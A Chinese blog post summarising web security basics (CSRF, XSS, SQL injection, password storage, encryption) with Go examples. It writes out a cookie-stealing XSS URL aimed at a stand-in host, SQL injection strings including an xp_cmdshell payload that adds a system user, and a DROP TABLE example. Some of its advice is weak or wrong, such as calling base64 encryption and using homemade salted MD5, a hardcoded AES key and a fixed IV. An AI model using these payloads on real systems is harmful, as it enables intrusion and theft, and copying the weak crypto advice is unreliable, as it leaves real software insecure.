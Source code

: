 ```yaml
---
layout: post
title: 在Web application 中基本的安全防范小结
date:   2017-05-22 18:00:06
categories: Summary
image: /assets/images/post.jpg
---
```


##### CSRF攻击

CSRF（Cross-site request forgery），中文名称：跨站请求伪造，也被称为：one click attack/session riding，缩写为：CSRF/XSRF。

> 那么CSRF到底能够干嘛呢？你可以这样简单的理解：攻击者可以盗用你的登陆信息，以你的身份模拟发送各种请求。攻击者只要借助少许的社会工程学的诡计，例如通过QQ等聊天软件发送的链接(有些还伪装成短域名，用户无法分辨)，攻击者就能迫使Web应用的用户去执行攻击者预设的操作。例如，当用户登录网络银行去查看其存款余额，在他没有退出时，就点击了一个QQ好友发来的链接，那么该用户银行帐户中的资金就有可能被转移到攻击者指定的帐户中。

CSRF攻击示意图：

![CSRF攻击示意图]( /assets/images/web-safe/csrf.png "Optional title")

CSRF攻击步骤：

1. 登入正常的网站A,并在本地保存了Cookie
2. 在不退出A的情况下,访问了危险网站B（比如点击了小广告）

> CSRF攻击主要是因为Web的隐式身份验证机制，Web的身份验证机制虽然可以保证一个请求是来自于某个用户的浏览器，但却无法保证该请求是用户批准发送的。

预防：

>1、正确使用GET,POST和Cookie；

>2、在非GET请求中增加伪随机数, 比如随机token；

```go
生成随机数token

h := md5.New()
io.WriteString(h, strconv.FormatInt(crutime, 10))
io.WriteString(h, "ganraomaxxxxxxxxx")
token := fmt.Sprintf("%x", h.Sum(nil))
t, _ := template.ParseFiles("login.gtpl")
t.Execute(w, token)

输出token

<input type="hidden" name="token" value="{{.}}">

验证token

r.ParseForm()
	token := r.Form.Get("token")
	if token != "" {
		//验证token的合法性
	} else {
		//不存在token报错
	}
```

##### 输入验证

过滤用户输入数据，验证数据的合法性，是一个重要的过程。能够在一定程度上，避免恶意数据在程序中被误用。

三个步骤：

>1、识别数据，搞清楚需要过滤的数据来自于哪里

>2、过滤数据，弄明白我们需要什么样的数据

>3、区分已过滤及被污染数据，如果存在攻击数据那么保证过滤之后可以让我们使用更安全的数据

输入数据来自哪里？

1. 表单提交时的参数

2. 接口传递的json参数

3. 参数在url中

4. 参数在http 的Header中

进行验证。验证数据的有效性，可以简单的验证，也可以根据自己的规则而验证。

在`<Grape>`框架中，在controller　层做了验证的DSL语法的验证。`<Rails>`的框架，还可以在model层做验证。

这里建议，如果可以在controller 做验证，最好先做，再继续在model层做相关验证。通过两重的验证，基本可以保证数据的有效性。

##### XXS攻击

> 动态站点会受到一种名为“跨站脚本攻击”（Cross Site Scripting, 安全专家们通常将其缩写成 XSS）的威胁，而静态站点则完全不受其影响。
XSS是一种常见的web安全漏洞，它允许攻击者将恶意代码植入到提供给其它用户使用的页面中。不同于大多数攻击(一般只涉及攻击者和受害者)，XSS涉及到三方，即攻击者、客户端与Web应用。XSS的攻击目标是为了盗取存储在客户端的cookie或者其他网站用于识别客户端身份的敏感信息。一旦获取到合法用户的信息后，攻击者甚至可以假冒合法用户与网站进行交互。

```
XSS目前主要的手段和目的如下：

盗用cookie，获取敏感信息。
利用植入Flash，通过crossdomain权限设置进一步获取更高权限；或者利用Java等得到类似的操作。
利用iframe、frame、XMLHttpRequest或上述Flash等方式，以（被攻击者）用户的身份执行一些管理动作，或执行一些如:发微博、加好友、发私信等常规操作，前段时间新浪微博就遭遇过一次XSS。
利用可被攻击的域受到其他域信任的特点，以受信任来源的身份请求一些平时不允许的操作，如进行不当的投票活动。
在访问量极大的一些页面上的XSS可以攻击一些小型网站，实现DDoS攻击的效果
```

XSS的原理

> Web应用未对用户提交请求的数据做充分的检查过滤，允许用户在提交的数据中掺入HTML代码(最主要的是“>”、“<”)，并将未经转义的恶意代码输出到第三方用户的浏览器解释执行，是导致XSS漏洞的产生原因

例子(来自　https://github.com/astaxie/build-web-application-with-golang/blob/master/zh/09.3.md):

接下来以反射性XSS举例说明XSS的过程：现在有一个网站，根据参数输出用户的名称，例如访问url：http://127.0.0.1/?name=astaxie，就会在浏览器输出如下信息：

```
hello astaxie

如果我们传递这样的url：http://127.0.0.1/?name=&#60;script&#62;alert(&#39;astaxie,xss&#39;)&#60;/script&#62;,这时你就会发现浏览器跳出一个弹出框，这说明站点已经存在了XSS漏洞。那么恶意用户是如何盗取Cookie的呢？与上类似，如下这样的url：http://127.0.0.1/?name=&#60;script&#62;document.location.href='http://www.xxx.com/cookie?'+document.cookie&#60;/script&#62;，这样就可以把当前的cookie发送到指定的站点：www.xxx.com。你也许会说，这样的URL一看就有问题，怎么会有人点击？，是的，这类的URL会让人怀疑，但如果使用短网址服务将之缩短，你还看得出来么？攻击者将缩短过后的url通过某些途径传播开来，不明真相的用户一旦点击了这样的url，相应cookie数据就会被发送事先设定好的站点，这样子就盗得了用户的cookie信息，然后就可以利用Websleuth之类的工具来检查是否能盗取那个用户的账户。

```

如何预防XSS

不要相信用户的任何输入的内容，并过滤掉输入中的所有特殊字符比如<script> <a>这样的标签。如果不过滤或清洁这样的标签，当浏览器
在渲染这样的字符串数据的时候，就会调用<script>中的代码，但是，这个代码并不是我们希望执行的。可能你的网站就被莫名奇妙的alert弹框，字体颜色被改。
或其他更危险的javascript的操作

过滤特殊字符

避免XSS的方法之一主要是将用户所提供的内容进行过滤，Go语言提供了HTML的过滤函数：

text/template包下面的HTMLEscapeString、JSEscapeString等函数

在Rails 开发中，如果要渲染有嫌疑的html字符串，使用`<sanitize>`方法继续过滤。　对返回的数据进行， sanitize @post.content，　或对 可以自定义的url 进行　sanitize

使用HTTP头指定类型

```
`w.Header().Set("Content-Type","text/javascript")`

这样就可以让浏览器解析javascript代码，而不会是html输出。
```

HttpOnly 设为true, 防止通过javascript脚本的方式获取得到Cookie

XSS漏洞是相当有危害的，在开发Web应用的时候，一定要记住过滤数据，特别是在输出到客户端之前，这是现在行之有效的防止XSS的手段。


##### SQL注入

> SQL注入攻击（SQL Injection），简称注入攻击，是Web开发中最常见的一种安全漏洞。可以用它来从数据库获取敏感信息，或者利用数据库的特性执行添加用户，导出文件等一系列恶意操作，甚至有可能获取数据库乃至系统用户最高权限。
通造成SQL注入的原因是因为程序没有有效过滤用户的输入，使攻击者成功的向服务器提交恶意的SQL查询代码，程序在接收后错误的将攻击者的输入作为查询语句的一部分执行，导致原始的查询逻辑被改变，额外的执行了攻击者精心构造的恶意代码。

例子来自于：　https://github.com/astaxie/build-web-application-with-golang/blob/master/zh/09.4.md

```
<form action="/login" method="POST">
	<p>Username: <input type="text" name="username" /></p>
	<p>Password: <input type="password" name="password" /></p>
	<p><input type="submit" value="登陆" /></p>
</form>

username:=r.Form.Get("username")
password:=r.Form.Get("password")
sql:="SELECT * FROM user WHERE username='"+username+"' AND password='"+password+"'"

如果用户的输入的用户名如下，密码任意
  myuser' or 'foo' = 'foo' --
那么我们的SQL变成了如下所示：
  SELECT * FROM user WHERE username='myuser' or 'foo' = 'foo' --'' AND password='xxx'

在SQL里面--是注释标记，所以查询语句会在此中断。这就让攻击者在不知道任何合法用户名和密码的情况下成功登录了

对于MSSQL还有更加危险的一种SQL注入，就是控制系统，下面这个可怕的例子将演示如何在某些版本的MSSQL数据库上执行系统命令。
  sql:="SELECT * FROM products WHERE name LIKE '%"+prod+"%'"
	Db.Exec(sql)
如果攻击提交a%' exec master..xp_cmdshell 'net user test testpass /ADD' --作为变量 prod的值，那么sql将会变成
  sql:="SELECT * FROM products WHERE name LIKE '%a%' exec master..xp_cmdshell 'net user test testpass /ADD'--%'"
MSSQL服务器会执行这条SQL语句，包括它后面那个用于向系统添加新用户的命令。如果这个程序是以sa运行而 MSSQLSERVER服务又有足够的权限的话，攻击者就可以获得一个系统帐号来访问主机了。
```

一个SQL注入的例子：
```
SELECT * FROM users WHERE email='''; DROP TABLE users;''';  
```

如何预防SQL注入

1. 控制数据库的操作权限

2. 检查输入的数据是否具有所期望的数据格式，严格限制变量的类型，例如使用regexp包进行一些匹配处理，或者使用strconv包对字符串转化成其他基本类型的数据进行判断。

3. 对进入数据库的特殊字符（'"\尖括号&*;等）进行转义处理，或编码转换。Go 的text/template包里面的HTMLEscapeString函数可以对字符串进行转义处理。

4. 不要直接拼接SQL语句, 对查询语句输入的前端提交传递过来的参数进行清洁过滤

##### 存储密码

简单的方案

在数据库中，使用单向哈希后存储，单向哈希算法有一个特征：无法通过哈希后的摘要(digest)恢复原始数据，这也是“单向”二字的来源。常用的单向哈希算法包括SHA-256, SHA-1, MD5等。

```go
import "crypto/sha256"

h := sha256.New()
io.WriteString(h, "His money is twice tainted: 'taint yours and 'taint mine.")
fmt.Printf("% x", h.Sum(nil))

import "crypto/sha1"
h := sha1.New()
io.WriteString(h, "His money is twice tainted: 'taint yours and 'taint mine.")
fmt.Printf("% x", h.Sum(nil))

import "crypto/md5"
h := md5.New()
io.WriteString(h, "需要加密的密码")
fmt.Printf("%x", h.Sum(nil))
```

+ 同一个密码进行单向哈希，得到的总是唯一确定的摘要。
+ 计算速度快。随着技术进步，一秒钟能够完成数十亿次单向哈希计算。

结合上面两个特点，考虑到多数人所使用的密码为常见的组合，攻击者可以将所有密码的常见组合进行单向哈希，得到一个摘要组合, 然后与数据库中的摘要进行比对即可获得对应的密码。这个摘要组合也被称为rainbow table。

因此通过单向加密之后存储的数据，和明文存储没有多大区别。因此，一旦网站的数据库泄露，使用暴力破解碰撞匹配，真实的密码就会被得到。

进阶的方案

自己设计一个哈希算法。一个好的哈希算法是很难设计的——既要避免碰撞，又不能有明显的规律，做到这两点要比想象中的要困难很多。因此实际应用中更多的是利用已有的哈希算法`<进行多次哈希>`，并且给密码进行`<加盐salt>`处理。

通常的做法是，先将用户输入的密码进行一次MD5（或其它哈希算法）加密；将得到的 MD5 值前后加上一些只有管理员自己知道的随机串，再进行一次MD5加密。这个随机串中可以包括某些固定的串，也可以包括用户名（用来保证每个用户加密使用的密钥都不一样）

```go

import "crypto/md5"
//假设用户名abc，密码123456
h := md5.New()
io.WriteString(h, "需要加密的密码")

//pwmd5等于e10adc3949ba59abbe56e057f20f883e
pwmd5 :=fmt.Sprintf("%x", h.Sum(nil))

//指定两个 salt： salt1 = @#$%   salt2 = ^&*()
salt1 := "@#$%"
salt2 := "^&*()"

//salt1+用户名+salt2+MD5拼接
io.WriteString(h, salt1)
io.WriteString(h, "abc")
io.WriteString(h, salt2)
io.WriteString(h, pwmd5)

last :=fmt.Sprintf("%x", h.Sum(nil))
```

##### 专家方案

使用`<scrypt>` 方案.这类方案有一个特点，算法中都有个因子，用于指明计算密码摘要所需要的资源和时间，也就是计算强度。计算强度越大，攻击者建立rainbow table越困难，以至于不可继续。scrypt是由著名的FreeBSD黑客Colin Percival为他的备份服务Tarsnap开发的。

```go
dk := scrypt.Key([]byte("some password"), []byte(salt), 16384, 8, 1, 32)
```

##### 加密和解密数据

base64加密

base64加密方法是一种简单的加密方法，例子:

```go
package main

import (
	"encoding/base64"
	"fmt"
)
func base64Encode(src []byte) []byte{
  return []byte(base64.StdEncoding.EncodeToString(src))
}
func base64Decode(src []byte) ([]byte, error) {
	return base64.StdEncoding.DecodeString(string(src))
}

func main() {
	// encode
	hello := "你好，世界！ hello world"
	debyte := base64Encode([]byte(hello))
	fmt.Println(debyte)
	// decode
	enbyte, err := base64Decode(debyte)
	if err != nil {
		fmt.Println(err.Error())
	}

	if hello != string(enbyte) {
		fmt.Println("hello is not equal to enbyte")
	}

	fmt.Println(string(enbyte))
}

```

#####　对称加密

Go语言的crypto里面支持对称加密的高级加解密包有：

crypto/aes包：AES(Advanced Encryption Standard)，又称Rijndael加密法，是美国联邦政府采用的一种区块加密标准。

crypto/des包：DES(Data Encryption Standard)，是一种对称加密标准，是目前使用最广泛的密钥系统，特别是在保护金融数据的安全中。曾是美国联邦政府的加密标准，但现已被AES所替代。

```go
package main

	import (
		"crypto/aes"
		"crypto/cipher"
		"fmt"
		"os"
	)

	var commonIV = []byte{0x00, 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07, 0x08, 0x09, 0x0a, 0x0b, 0x0c, 0x0d, 0x0e, 0x0f}

	func main() {
		//需要去加密的字符串
		plaintext := []byte("My name is Astaxie")
		//如果传入加密串的话，plaint就是传入的字符串
		if len(os.Args) > 1 {
			plaintext = []byte(os.Args[1])
		}

		//aes的加密字符串
		key_text := "astaxie12798akljzmknm.ahkjkljl;k"
		if len(os.Args) > 2 {
			key_text = os.Args[2]
		}

		fmt.Println(len(key_text))

		// 创建加密算法aes
		c, err := aes.NewCipher([]byte(key_text))
		if err != nil {
			fmt.Printf("Error: NewCipher(%d bytes) = %s", len(key_text), err)
			os.Exit(-1)
		}

		//加密字符串
		cfb := cipher.NewCFBEncrypter(c, commonIV)
		ciphertext := make([]byte, len(plaintext))
		cfb.XORKeyStream(ciphertext, plaintext)
		fmt.Printf("%s=>%x\n", plaintext, ciphertext)

		// 解密字符串
		cfbdec := cipher.NewCFBDecrypter(c, commonIV)
		plaintextCopy := make([]byte, len(plaintext))
		cfbdec.XORKeyStream(plaintextCopy, ciphertext)
		fmt.Printf("%x=>%s\n", ciphertext, plaintextCopy)
	}
```

上面通过调用函数aes.NewCipher(参数key必须是16、24或者32位的[]byte，分别对应AES-128, AES-192或AES-256算法),返回了一个cipher.Block接口，这个接口实现了三个功能：

```go
type Block interface {
	// BlockSize returns the cipher's block size.
	BlockSize() int

	// Encrypt encrypts the first block in src into dst.
	// Dst and src may point at the same memory.
	Encrypt(dst, src []byte)

	// Decrypt decrypts the first block in src into dst.
	// Dst and src may point at the same memory.
	Decrypt(dst, src []byte)
}
```


在开发Web应用的时候可以根据需求采用不同的方式进行加解密，一般的应用可以采用base64算法，更加高级的话可以采用aes或者des算法。


参考连接：　https://github.com/astaxie/build-web-application-with-golang　
